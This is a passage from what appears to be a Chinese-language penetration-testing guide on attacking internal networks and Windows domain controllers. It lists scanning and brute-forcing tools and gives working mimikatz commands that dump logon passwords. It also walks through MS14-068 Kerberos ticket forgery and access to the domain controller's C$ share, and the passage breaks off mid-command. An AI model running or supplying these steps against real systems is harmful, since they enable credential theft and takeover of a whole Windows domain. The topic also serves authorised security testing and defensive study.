 ```
privilege::debug
misc::cmd
misc::regedit
misc::taskmgr
```

### 扫描内网

##### 漏洞扫描

漏洞扫描跟外网不同的是，流量需要控制，但是多数情况下是不会有WAF和防火墙的。

当然，在大一点的内网，如果没有流量监控和分析一般是可能性比较小的。

使用脚本漏洞扫描【如awvs】和路径爆破【如御剑】，操作大体与外网扫描相似。

其实国人也写过不少优秀的自研扫描器，里面有部分是内网专用的：

```
https://github.com/We5ter/Scanners-Box
```


##### 信息探测

这类漏扫一般都会提供，可能会探测特定的服务、探测Title等等，但一些专有用途的刺探脚本也许会优于综合型漏扫。


##### 服务探测

服务探测主要使用nmap、masscan一类的端口扫描器，他们存有banner可以和数据库里存储的服务版本进行对比，从而给我们输出相关信息。


##### 口令爆破

一般像hscan【windows】或者hydra【跨平台】的会比较合适，如果能做sock或者http/https代理的话，如Nmap/MSF里script的效果也是不错的。
至于国内传统厂商出的一些扫描器则显得比较笨拙，做自检还勉强，部署也相当麻烦。


### 攻击域控

##### 导出域内用户hash


> 1.gethashes.exe $local

> 2.mimikatz

```
privilege::debug
sekurlsa::logonpasswords
获得域控权限、导出所有用户口令、维持域控权限：

附上一套完整打法：
http://blog.csdn.net/pyphrb/article/details/52051321
攻击域控，获得权限

使用ms14-068漏洞
ms14-068.exe -u -p -s -d 【这里参数值省略】

生成伪造缓存test.ccache: 
导入伪造缓存: mimikatz：
kerberos::ptc test.ccache

登陆：
net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

导出域
（1）直接获取内存口令 mimikatz：
privilege::debug
```